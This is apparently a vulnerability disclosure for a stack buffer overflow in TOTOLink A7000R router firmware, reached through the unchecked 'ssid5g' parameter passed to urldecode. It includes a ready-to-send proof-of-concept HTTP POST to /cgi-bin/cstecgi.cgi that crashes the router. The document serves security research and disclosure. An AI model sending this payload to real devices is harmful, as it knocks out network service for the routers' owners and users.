


# TOTOLink Vulnerability

Vendor:TOTOLink 

Product:A7000R

Version:V9.1.0u.6115_B20201022(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen

Mail:shenshuhao@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the sub_421CF0 function, the ssid5g parameter is obtained via websGetVar(a1, "ssid5g", &byte_431360) and passed to the urldecode function for decoding. The urldecode function stores the decoded input in the target buffer v68, but does not restrict the length of the input v59 (i.e., ssid5g). The urldecode function uses a pointer v3 (pointing to v68) to write decoded data byte by byte, with v4 (a counter) controlling the position of the null terminator, ultimately writing a null character at a2[v4 - 1] = 0. The target buffer v68 is a fixed-size array (_BYTE v68[128]), and the call to urldecode(v59, v68) is executed unconditionally. When the ssid5g parameter is excessively long, urldecode can trigger a buffer overflow, overwriting adjacent stack data or the return address, resulting in a Denial of Service (DoS) attack.


<div  align="center"></div>

<div  align="center"></div>


## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.6.15

Content-Length: 553

X-Requested-With: XMLHttpRequest

Accept-Language: en-US,en;q=0.9

Accept: application/json, text/javascript, */*; q=0.01

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

Origin: http://192.168.6.15

Referer: http://192.168.6.15/phone/login.html

Accept-Encoding: gzip, deflate, br

DNT: 1

Connection: close

Pragma: no-cache

Cache-Control: no-cache


{"ssid5g":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",

"topicurl":"setWizardCfg"}
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>